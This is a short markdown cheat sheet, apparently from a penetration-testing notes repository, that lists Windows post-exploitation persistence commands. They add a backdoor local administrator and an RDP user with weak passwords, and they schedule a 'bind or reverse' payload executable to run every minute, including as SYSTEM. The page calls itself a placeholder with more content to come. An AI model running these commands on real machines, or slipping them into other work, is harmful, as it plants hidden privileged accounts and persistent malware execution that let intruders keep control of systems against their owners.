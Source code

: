# Place Holder

## Add an Administrator
```net user adm adm1 /add```
```net localgroup administrators adm /add```

## Add a Limited User with RDP Access
```net user lowlevel lowlevel1 /add```
```net localgroup "Remote Desktop USers" lowlevel /add```

## Schedule a Bind or Reverse EXE Payload to Run
```schtasks /create /TN "WindowsTaskSys1" /TR "C:\Users\low\executable.exe" /sc MINUTE```

## Scheduel a Bind or Reverse EXE Payload to Run as SYSTEM
```schtasks /create /TN "WindowsTaskSys1" /TR "C:\Users\low\executable.exe" /sc MINUTE /RU "SYSTEM"```

Content coming. Feel free to submit ;-)
